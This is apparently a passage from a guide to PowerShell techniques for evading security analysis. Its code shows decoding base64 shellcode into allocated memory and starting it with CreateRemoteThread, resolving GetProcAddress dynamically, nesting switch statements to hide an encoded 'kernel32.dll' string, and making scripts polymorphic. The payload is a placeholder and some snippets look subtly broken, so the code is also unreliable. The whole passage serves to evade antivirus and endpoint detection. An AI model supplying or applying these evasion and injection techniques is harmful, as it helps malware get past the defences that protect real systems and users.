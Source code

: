 Example:

```powershell
$encodedShellcode = "SOME_BASE64_ENCODED_SHELLCODE"
$shellcode = [System.Convert]::FromBase64String($encodedShellcode)

$ptr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($shellcode.Length)
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $ptr, $shellcode.Length)

$hProcess = [System.Diagnostics.Process]::GetCurrentProcess().Handle
$hThread = [IntPtr]::Zero
$hThread = CreateRemoteThread($hProcess, [IntPtr]::Zero, 0, $ptr, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

### 5. **Dynamic Function Resolution:**

Instead of calling functions directly, resolve function addresses dynamically at runtime.

Example:

```powershell
$funcName = "GetProcAddress"
$funcPtr = $kernel32.GetMethod("GetDelegateForFunctionPointer", [Type[]]@([IntPtr], [Type]))
$procAddress = $funcPtr.Invoke($null, @($GetModuleHandle.Invoke($null, "kernel32.dll"), $funcName))
```

### 6. **Control Flow Obfuscation:**

Intentionally complicate control flow to make it difficult for both static and dynamic analysis.

Example:

```powershell
$cond = 1
switch ($cond) {
    1 {
        $step1 = 2
        switch ($step1) {
            2 {
                $encodedKernel32 = "a2VybmVsMzIuZGxs"  # Encoded string
            }
        }
    }
}
```

### 7. **Polymorphic Code:**

Generate different versions of your script each time it's executed by modifying variables, control structures, or string encryption.

---

### Important Considerations:
